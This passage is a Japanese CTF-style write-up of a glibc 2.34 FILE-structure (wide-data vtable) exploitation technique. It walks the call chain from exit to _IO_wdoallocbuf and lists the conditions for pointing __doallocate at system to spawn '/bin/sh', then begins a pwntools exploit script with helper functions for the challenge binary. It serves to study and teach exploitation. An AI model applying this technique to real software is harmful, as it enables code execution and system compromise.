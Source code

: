 まずそもそも_IO_wfile_jumps.\__overflowを呼び出すためにexitを呼び出して最終的に_IO_flush_all_lookupを呼び出す必要がある。この関数の定義は以下。

https://elixir.bootlin.com/glibc/glibc-2.34/source/libio/genops.c#L684

以下の部分でvtable->\__overlfowを呼び出す。
```c: /libio/genops.c#L701
      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)
```
\__overflowを呼び出すためには以下のいずれかの条件を満たす必要がある。
```
- fp->_mode <= 0 かつ fp->_IO_write_ptr > fp->_IO_write_base
- fp->_mode > 0 かつ fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base
```
この条件を満たせば__overflowが呼び出される。第一引数にはfpが渡される。この時に_IO_wfile_overflowを呼び出すため、vtableを&_IO_wfile_jumpsに改竄する必要がある。これで_IO_wfile_overflowが呼び出される。最終的な目標は422行目の以下の処理を実行することだった。
```c: libio/wfileops.c#L422
	  _IO_wdoallocbuf (f);
```
この処理に到達するために以下の条件を満たす必要がある。

```
- f->_flags & _IO_NO_WRITES(=0x8) == 0
- (f->_flags & _IO_CURRENTLY_PUTTING(=0x800)) == 0
- f->_wide_data->_IO_write_base == 0
```

これで_IO_wdoallocbufが呼び出される。この関数の定義は以下。

https://elixir.bootlin.com/glibc/glibc-2.34/source/libio/wgenops.c#L365

371行目の以下の処理を実行するのが目標。
```c: libio/wgenops.c#L371
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
```
この部分を実行するために以下の条件を満たす必要がある。
```
- fp->_wide_data->_IO_buf_base == 0
- fp->_flags & _IO_UNBUFFERED(=0x0x0002) == 0
```
_IO_WDOALLOCATEマクロの定義は長いので載せない。最終的にf->_wide_data->_wide_vtable->\__doallocateが呼び出される。\_doallocateを&systemにして、fpの先頭に"/bin/sh"を置けばshellが起動できる。

# exploit
## 前準備
繰り返し使う処理を関数としてまとめておく。
```python: exploit.py
def create(idx : hex, size: hex, align: hex, note: bytes):
    io.sendlineafter(b'> ', str(1).encode())
    io.sendlineafter(b'index: ', str(idx).encode())
    io.sendlineafter(b'size: ', str(size).encode())
    io.sendlineafter(b'alignment: ', str(align).encode())
    io.sendlineafter(b'note: ', note)

def show(idx: hex) -> bytes:
    io.sendlineafter(b'> ', str(2).encode())
    io.sendlineafter(b'index: ', str(idx).encode())
    return io.recvline()
```
